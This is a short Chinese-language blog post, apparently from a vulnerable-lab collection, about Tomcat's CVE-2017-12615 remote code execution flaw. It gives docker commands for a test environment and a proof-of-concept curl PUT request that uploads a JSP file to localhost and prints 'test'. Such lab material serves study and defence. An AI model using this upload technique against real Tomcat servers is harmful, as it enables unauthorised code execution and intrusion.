 ```yaml
---
layout: post
title: "Tomcat 远程代码执行漏洞 (CVE-2017-12615)"
date: 2017-09-21 00:47:08
image: '/assets/img/'
description: 'Tomcat 远程代码执行漏洞 (CVE-2017-12615)'
main-class: 'hole'
color: '#B31917'
tags:
- Tomcat
- RCE
categories:
- Tomcat
twitter_text: 'Tomcat 远程代码执行漏洞 (CVE-2017-12615)环境'
introduction: 'Tomcat 远程代码执行漏洞 (CVE-2017-12615)环境'
---
```


### 漏洞信息

 * [Fixed in Apache Tomcat 7.0.81](http://tomcat.apache.org/security-7.html#Fixed_in_Apache_Tomcat_7.0.81)
 * [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)
 
 > 根据测试发现 7.0.81 并未修复完全，可绕过，具体参考下方paper链接

 * [云鼎实验室：Tomcat 远程代码执行漏洞分析（CVE-2017-12615）及补丁 Bypass](https://paper.seebug.org/398/)

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:t_tomcat_1
 ```

2. 启动环境
 ```
$ docker run -d -p 8080:8080 medicean/vulapps:t_tomcat_1
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

1. 向目标发起 PUT 请求，注意后缀为 `.jsp/`
    ```
$ curl -X PUT "http://127.0.0.1:8080/123.jsp/" -d '<%out.println("test");%>'
    ```

2. 然后访问目标地址 `http://127.0.0.1:8080/123.jsp`,  即可看到输出了 `test`

### 参考链接

* [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)
